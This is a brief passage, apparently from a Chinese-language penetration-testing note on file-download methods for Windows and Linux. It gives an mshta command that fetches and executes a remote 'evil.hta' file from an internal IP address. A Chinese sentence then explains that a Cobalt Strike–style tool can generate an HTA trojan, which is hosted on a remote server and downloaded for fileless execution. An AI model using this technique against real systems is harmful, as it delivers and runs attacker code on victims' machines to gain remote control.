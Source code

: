 ```
mshta http://192.168.10.11/evil.hta
```

![hta](Windows&Linux常见文件下载方法/hta.png)



##### 也可以使用CS来上线，生成一个hta木马，然后放到远程服务器，最后利用命令下载，即可无落地执行
